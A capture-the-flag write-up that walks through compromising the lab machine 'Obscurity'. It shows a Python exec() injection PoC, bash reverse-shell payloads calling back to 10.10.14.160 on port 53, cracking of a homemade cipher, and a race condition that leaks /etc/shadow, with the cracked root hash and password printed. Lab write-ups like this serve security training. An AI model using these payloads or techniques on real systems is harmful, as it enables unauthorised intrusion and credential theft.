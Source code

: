 # Obscurity

## Preparation

Added IP to /etc/hosts as "obscure.htb"

## Recon

Starting with nmap
```
nmap -v -r -sV -sC obscure.htb 
```

### HTTP (TCP/8080)

BadHTTPServer

Message to server devs: the current source code for the web server is in 'SuperSecureServer.py' in the secret development directory

Used wfuzz to find the "secret development directory" - develop
	wfuzz -u http://obscure.htb:8080/FUZZ/SuperSecureServer.py -w /usr/share/seclists/Discovery/Web-Content/big.txt --hc 404

As hinted at by the comments in the code, there is a vulnerability in how it parses input
	exec(info.format(path)) # This is how you do string formatting, right?

The exec function will run python code and the os module is imported so that means we should have code execution.

## Cracking the Perimeter

Exploit PoC Code

```
#!/usr/bin/python3

import requests

url = "http://obscure.htb:8080/"
payload = "';os.system('sleep 10');'"

url = url + payload

r = requests.get(url)
```

Generating reverse shell code in Bash using shellclip. Since initial recon showed signs of a firewall, I'll use TCP/53 to bypass it.

```
bash -i >& /dev/tcp/10.10.14.160/53 0>&1
```

After some tweaking of the syntax, I got a shell as 

```
#!/usr/bin/python3

import requests

url = "http://obscure.htb:8080/"
payload = "';os.system('/bin/bash -c \"bash -i >& /dev/tcp/10.10.14.160/53 0>&1\"'"");'"

url = url + payload

r = requests.get(url)
```

## Privilege Escalation

In /home/robert/ there is a custom encryption mechanism with the input and encrypted output of a particular string. "Encrypting this file with your key should result in out.txt, make sure your key is correct!". The following code is used to encrypt it.

```
def encrypt(text, key):
	keylen = len(key)
	keyPos = 0
	encrypted = ""
	for x in text:
		keyChr = key[keyPos]
		newChr = ord(x)
		newChr = chr((newChr + ord(keyChr)) % 255)
		encrypted += newChr
		keyPos += 1
		keyPos = keyPos % keylen
	return encrypted
```

Since it adds the key to the plaintext to make the ciphertext for each position, you can subtract the plaintext from the ciphertext in each position to derive the key.

```
#!/usr/bin/python3

def getKey(cipher, plain):
	position = 0
	key = ""
	for item in list(plain):
		cipherchar = cipher[position]
		plainchar = ord(item)
		key += chr((ord(cipherchar) - plainchar))
		position +=1
	print(key)

with open('/home/robert/out.txt') as f:
	cipher = f.read()

with open('/home/robert/check.txt') as f:
	plain = f.read()

getKey(cipher, plain)
``` 

"alexandrovichal" is the key
	cd /home/robert; python3 SuperSecureCrypt.py -d -i passwordreminder.txt -k alexandrovichal -o /dev/shm/
	
Output is "SecThruObsFTW" - local passowrd - flag is in /home/robert/user.txt

I can run /home/robert/BetterSSH.py as sudo

It makes a copy of the shadow file in /tmp and looks like it does not delete it if you successfully authenticate

```
import sys
import random, string
import os
import time
import crypt
import traceback
import subprocess

path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
    session['user'] = input("Enter username: ")
    passW = input("Enter password: ")

    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break

    if salt == "":
        print("Invalid user")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    salt = '$6$'+salt+'$'
    realPass = salt + realPass

    hash = crypt.crypt(passW, salt)

    if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)

if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')

```

It does not make the directory...
```
robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: robert
Enter password: SecThruObsFTW
Traceback (most recent call last):
  File "/home/robert/BetterSSH/BetterSSH.py", line 24, in <module>
    with open('/tmp/SSH/'+path, 'w') as f:
FileNotFoundError: [Errno 2] No such file or directory: '/tmp/SSH/Qq5WcHjG'

```

I had to make the /tmp/SSH/ directory

It does remove the copy of the shadow file in either case, what if I can get a second shell to inspect the directory while "logging in"?

Uploaded and executed linper for TCP/5253

Doesn't work, wrong version of netcat

Tweaked linper to use python3 in all cases and got a second shell as robert

Retrieved the shadow file by running...
```
find . -type f -exec cat {} +
```
...in one terminal and running...
```
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```
...in another and supplying robert and SecThruObsFTW as the username and password

Hashcat recovered one password pretty quickly
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:mercedes

That is the root password!